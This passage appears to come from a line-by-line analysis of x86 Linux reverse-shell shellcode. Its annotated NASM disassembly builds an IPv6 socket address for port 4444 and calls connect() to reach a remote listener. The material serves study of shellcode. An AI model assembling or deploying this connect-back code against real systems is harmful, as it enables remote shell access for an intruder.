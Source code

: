 ```nasm
                            ; bytes 24-27 of the sockaddr_in6 struct:
                            ;   value of sin6_scope_id: 0x00000000
00000019  53                push ebx
```

```nasm
                            ; bytes 8-23 of the sockaddr_in6 struct:
                            ;    value of sin6_addr: fe80::250:56ff:fe22:364b (big-endian)
0000001A  68FE22364B        push dword 0x4b3622fe
0000001F  68025056FF        push dword 0xff565002
00000024  6A00              push byte +0x0
00000026  68FE800000        push dword 0x80fe
```

{% sidenote Bytes in big-endian order representing the IPv6 address: `fe80::250:56ff:fe22:364b` %}

```nasm
                            ; bytes 4-7 of the sockaddr_in6 struct:
                            ;   value of sin6_flowinfo: 0x00000000
0000002B  53                push ebx

                            ; bytes 2-3 of the sockaddr_in6 struct:
                            ;   value of sin6_port: port 4444 in big-endian order
0000002C  6668115C          push word 0x5c11

                            ; bytes 0-1 of the sockaddr_in6 struct:
                            ;   value of sin6_family: AF_INET6
00000030  66680A00          push word 0xa

                            ; save the pointer to the sockaddr_in6 struct into ECX
00000034  89E1              mov ecx,esp

                            ; 3rd argument of connect():
                            ;   size of the sockaddr_in6 struct (28 bytes): 
00000036  6A1C              push byte +0x1c

                            ; 2nd argument of connect():
                            ;   pointer to the sockaddr_in6 struct
00000038  51                push ecx

                            ; 1st argument of connect():
                            ;   File Descriptor of the client socket
00000039  56                push esi

                            ; clear registers
0000003A  31DB              xor ebx,ebx
0000003C  31C0              xor eax,eax

                            ; socketcall() syscall
0000003E  B066              mov al,0x66

                            ; 1st argument of socketcall():
                            ;   SYS_CONNECT call
00000040  B303              mov bl,0x3

                            ; 2nd argument of socketcall():
                            ;   pointer to the arguments of SYS_CONNECT
00000042  89E1              mov ecx,esp

                            ; call socketcall() syscall, in turn calling connect(...)
00000044  CD80              int 0x80
```

